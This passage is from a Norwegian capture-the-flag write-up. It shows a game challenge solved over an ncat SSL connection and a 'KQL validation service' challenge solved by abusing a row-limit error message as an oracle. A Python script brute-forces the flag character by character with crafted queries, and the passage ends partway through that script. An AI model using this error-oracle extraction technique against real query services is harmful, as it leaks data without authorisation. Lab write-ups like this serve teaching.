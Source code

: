 ```bash
(echo -n "333\n\n"; cat) | ncat --ssl game.ept.gg 1337
```
```
Each round you get up to 3 shots, each shot is worth up to 3 points.
First one to bring the score to 20 point wins.
You start, and please beat my dad, he has gotten so cocky these last years.

Enter your shots as a series of numbers (max 3)
> The total score is now 10

Dads turn...
Dads shoots...
And he scores! 333

The total score is now 19

Enter your shots as a series of numbers (max 3)
> 1
The total score is now 20

You win! Here are my dads final words to you:
```


<details><summary>Flagg</summary></details>


## KQL VALIDATION SERVICE

### Løsning

Vi tar utgangspunkt i en prompt vi utledet for å løse forrige oppgave:

```kql
search * | where * contains "$$" and * contains "}"
```

Etter litt testing finner vi en feilmelding som kan utnyttes for å røpe data:

```
Query execution has exceeded the allowed limits (80DA0003): The results of this query exceed the set limit of 500 records
```

Vi utnytter grenseverdien på 500 rader og bruker en loop som returnerer mer 501 rader dersom den klarer å finne starten på flagget i databasen. pack_all kombinerer alle kolonnene til én, toscalar konverterer første rad til en string (vi har bare én rad):

```kql
range n from 1 to toscalar(search * | where * contains "ept{" | count)*501 step 1
```

Feilmeldingen dukket opp også denne gangen. Det tyder på at vi kan finne flagget på denne måte. Dette kan scriptes for å bruteforce én og én bokstav:

```py
import requests
import string

def brute(url, query, word):
    for i in range(50):
        for letter in string.digits + string.ascii_lowercase + "<>,./:*@'+-$_-?!}= ":
            # Use replace placaolder with payload
            query_to_run = query.replace("$$", word+letter)

            response = requests.post(url, headers={"content-type": "application/json"}, json={ "query": query_to_run})

            if response.status_code == 400:
```